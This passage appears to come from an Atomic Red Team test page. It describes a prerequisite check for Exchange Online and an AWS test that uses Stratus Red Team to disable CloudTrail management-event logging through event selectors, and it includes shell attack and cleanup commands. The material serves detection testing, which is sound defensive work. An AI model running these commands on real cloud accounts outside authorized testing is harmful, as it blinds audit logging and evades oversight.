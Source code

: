 ##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name ExchangeOnlineManagement
Import-Module ExchangeOnlineManagement
```

<br/>
<br/>

## Atomic Test #4 - AWS - Disable CloudTrail Logging Through Event Selectors using Stratus

Update event selectors in AWS CloudTrail to disable the logging of certain management events to evade defense. This Atomic test leverages a tool called Stratus-Red-Team built by DataDog (https://github.com/DataDog/stratus-red-team). Stratus Red Team is a self-contained binary. You can use it to easily detonate offensive attack techniques against a live cloud environment. Ref: https://stratus-red-team.cloud/attack-techniques/AWS/aws.defense-evasion.cloudtrail-event-selectors/

**Supported Platforms:** Linux, macOS, Iaas:aws

**auto_generated_guid:** a27418de-bdce-4ebd-b655-38f11142bf0c

#### Inputs:

| Name         | Description            | Type   | Default Value                      |
| ------------ | ---------------------- | ------ | ---------------------------------- |
| stratus_path | Path of stratus binary | path   | $PathToAtomicsFolder/T1562.008/src |
| aws_region   | AWS region to detonate | string | us-west-2                          |

#### Attack Commands: Run with `sh`!

```sh
export AWS_REGION=#{aws_region}
cd #{stratus_path}
echo "starting warmup"
./stratus warmup aws.defense-evasion.cloudtrail-event-selectors
echo "starting detonate"
./stratus detonate aws.defense-evasion.cloudtrail-event-selectors --force
```

#### Cleanup Commands:

```sh
export AWS_REGION=#{aws_region}
echo "Cleanup detonation"
cd #{stratus_path}
./stratus cleanup --all
rm -rf stratus*
```
